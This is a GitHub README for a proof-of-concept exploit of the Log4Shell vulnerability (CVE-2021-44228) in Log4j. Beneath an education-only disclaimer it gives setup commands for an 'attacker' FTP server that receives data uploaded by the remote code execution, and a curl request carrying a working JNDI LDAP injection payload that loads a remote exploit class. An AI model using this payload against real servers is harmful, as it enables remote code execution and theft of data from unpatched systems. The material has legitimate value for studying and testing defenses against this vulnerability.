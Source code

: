# log4jshell
log4jshell is an full fledged POC that exploit LOG4J vulnerability [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228) introduced as part of [LOG4J2-313](https://issues.apache.org/jira/browse/LOG4J2-313)  

```
NOTE : 

PLEASE USE THIS APP ONLY FOR EDUCATION PURPOSE.

THIS APP IS DEVELOPED AS A PROOF OF CONCEPT(POC) AND IS INTENTEDED ONLY FOR EDUCATION PURPOSE. 

USING THIS POC APP TO TARGET AGAINST ANY SYSTEMS WITHOUT CONSENT IS PURELY ILLEGAL.

ANY DAMAGES CAUSED DUE TO ILLEGAL USE OF THIS APP/SOFTWARE/POC IS NOT THE RESPONSIBILITY OF THE AUTHOR.

```
![Log4JShell POC](https://user-images.githubusercontent.com/1702155/148014657-408433e9-f6a5-40de-99b2-20bf6ce6bf8c.jpg)


## Pre-requisites
* [Python 3](https://www.python.org/downloads/)
* [Java 1.8](https://docs.oracle.com/javase/8/docs/technotes/guides/install/install_overview.html)
* [Apache Tomcat 1.9](https://tomcat.apache.org/download-90.cgi)
* [IntelliJ CE or Eclipse](https://www.jetbrains.com/idea/)


## Installation

Use the python package manager [pip3](https://pip.pypa.io/en/stable/) to install foobar.

```bash
pip3 install pyftpdlib
```

Create the FTP upload directory where the RCE will upload the information

```bash
mkdir -p /tmp/ftpuploads
```

Start the FTP Server locally
```bash
python3 src/main/python/attacker/ftp-server.py
```

## Usage

```bash
curl --location --request GET 'http://localhost:8080/log4jshell/search' \
--header 'Content-Type: application/json' \
--data-raw '{
    "searchText" : "${jndi:ldap://localhost:8389/com.demo.exploit.log4jshell.Exploit.class}"
}
'
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## Acknowledgments

Some of the references code that I have used to build this POC are listed below

* [Apache Log4j Security Vulnerabilities](https://logging.apache.org/log4j/2.x/security.html)
* [rfc2713](https://datatracker.ietf.org/doc/html/rfc2713)
* [marshalsec](https://github.com/mbechler/marshalsec)
* [veracode-research](https://github.com/veracode-research/rogue-jndi)
* [black hat](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)


